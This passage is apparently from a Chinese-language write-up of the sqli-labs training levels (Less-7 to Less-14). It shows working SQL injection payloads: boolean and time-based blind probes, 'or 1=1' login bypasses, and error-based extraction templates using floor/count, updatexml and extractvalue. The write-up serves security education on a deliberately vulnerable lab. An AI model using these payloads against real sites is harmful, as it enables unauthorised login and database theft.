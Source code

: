     我们查看源文件，给出的查询语句是`SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1`。我们再把查询语句和两种payload结合起来看异同:

    ```SQL
    SELECT * FROM users WHERE id=(('1' and 1=1 and '1'='1')) LIMIT 0,1 #我们的payload
    SELECT * FROM users WHERE id=(('1') AND 4645=4645 AND ('bpBu'='bpBu')) LIMIT 0,1 #SQLMap的payload
    ```

    从上面可以看出其实两个判断都是差不多的，最后id得到的都是布尔值0或者1.因此构造`1')) and 1=1#`也是同样可以完成注入。

8. Less-8 Blind- Boolian- Single Quotes- String

    尝试`id=1' and 1=1#`，可以进行盲注。常规操作不细说了。

9. Less-9 Blind- Time based- Single Quotes- String

    无论输入的是单引号、双引号、加括号，结果都是不变。因此考虑是时间盲注，尝试`id=1' and (select sleep(5)) and '1'='1`，页面果然睡觉5秒。剩下过程不赘述。

10. Less-10 Blind- Time based- Double Quotes- String

    尝试`id=1” and (select sleep(5)) and “1”=“1`，可以进行盲注。

11. Less-11- Error Based- String

    页面出现了登录框。尝试弱口令admin/admin可以成功登录。但是我们是要进行注入，万能账号密码:admin' or 1=1 #/密码随便填完成登录。
    但是其实这个题目还可以通过报错注入得到结果，以下是过程：

    首先我们知道，报错注入常用的有三个方法。

    第一个是使用`count(),floor(),group by`三个函数

    ```SQL
    id=1%27 and (select 1 from (select count(*),concat((payload),floor(rand(0)*2))a from information_schema.tables group by a)x)
    ```

    第二个是使用`updatexml()`

    ```SQL
    id=1%27 and (updatexml(1,concat(0x7e,(payload),0x7e),1))
    ```

    第三个是使用`extractvalue()`

    ```SQL
    id=1%27 and (extractvalue(1,concat(0x7e,(payload),0x7e)))
     ```

    第一个方法可以输出64个字符，第二第三个字符输出32个字符。

12. Less-12- Error Based- Double quotes- String

    登录框账号处输入`admin\`，页面提示错误`"admin\") and password=("") LIMIT 0,1`,看出来是一个双引号加括号的闭合。构造账号为`admin") or 1=1#`成功登录。报错注入也可以完成。

13. Less-13- Double Injection- String- with twist

    构造`admin\`作为用户名登录，页面提示`'admin\') and password=('') LIMIT 0,1`，是一个单引号加上括号的闭合，构造`admin') or 1=1#`登录。也可以进行报错注入。

14. Less-14- Double Injection- Double quotes- String

    是双引号闭合，不赘述。
